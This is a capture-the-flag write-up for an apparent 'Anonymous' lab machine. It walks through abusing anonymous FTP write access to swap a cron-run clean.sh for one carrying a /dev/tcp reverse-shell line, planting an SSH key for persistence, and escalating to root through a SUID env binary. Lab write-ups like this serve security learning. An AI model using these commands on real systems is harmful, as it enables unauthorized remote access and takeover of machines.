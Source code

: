 # Anonymous v6
**IP:** _10.10.221.147_
I did a nmap scan and found:
> 21 (ftp), anonymous is allowed<br>
> 22 (ssh)<br>
> 139, 445 (smb)<br>

I connected via ftp to the server. Here is what I found there in the scripts folder:<br>
![ftp_server](./imgs/ftp_server.png)


I got these files.

*clean.sh*<br>
![clean.sh](./imgs/clean.sh.png)<br>

*removed_files.log*<br>
![removed_files.log](./imgs/removed_files.log.png)<br>

*removed_files.log* file is a part of *clean.sh* script. And if you look at the time when the *remove_files.log* was last changed you will notice that it was just changed, so we can suppose that *clean.sh* is scheduled to run (maybe every minute).<br>
We have permissions to put files on the ftp server.

I took the *clean.sh* file, changed it a little bit. Just added this line:<br>
`sh -i >& /dev/tcp/10.2.116.12/2222 0>&1`<br>
Connected to the ftp server, removed the original *clean.sh* and put my own. (Do not forget to set up nc listener.) The idea was that I would wait until the file would be executed and I would get a reverse-shell, but it did not work because the file does not have the permissions to be executed.<br>
Let's see what we got on the *smb server*
```
smbmap -H anonv6.thm

[+] Guest session       IP: anonv6.thm:445      Name: unknown                                           
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        pics                                                    READ ONLY       My SMB Share Directory for Pics
        IPC$                                                    NO ACCESS       IPC Service (anonymous server (Samba, Ubuntu))
```
Let's check them out.<br>
pics:<br>
![smb_pics](./imgs/smb_pics.png)<br>
Nothing interesting. Doing some research I found what was my mistake. I connected to the ftp server removed *clean.sh* and then put there mine *clean.sh*, and these two actions changed permissions of the file and did not allow the system to run it. The right way to get the reverse-shell was just create a new *clean.sh* DO NOT remove current from the server and just put it there.
```
ftp anonv6.thm
anonymous:anonymous
put clean.sh
```
And now if you had a netcal listener listening, in my case on port 2222, after a couple of seconds I got we reverse-shell.

## Privilege Escalation
Fistly, I upgraded my reverse-shell with:<br>
`python3 -c "import pty; pty.spawn('/bin/bash')"`<br>
Then I created new ssh key-pair and connected via ssh in order that I have a pretty shell :smile:<br>
```
ssh-keygen # no password
cat ./.ssh/id_rsa.pub > authorized_keys
```
Then I copied `./.ssh/id_rsa` file to my machine in a file called `id_rsa` and set the right permissions and connected to it.<br>
```
chmod 600 id_rsa
ssh -i id_rsa namelessone@anonv6.thm
```
I went to my cheat sheet for privilege escalation [CheatSheet](https://github.com/0xt1m/ctf/blob/main/CheatSheet/privilge_escalation.md) and found there this command:<br>
```
find / -perm -u=s -type f 2>/dev/null
```
I gave out many responses but the interesting one for me was:<br>
`/usr/bin/env`<br>
I went to https://gtfobins.github.io/gtfobins, looked for `env` it found there SUID option for me, so I just executed the next command and got root.<br>
```
env /bin/sh -p
```

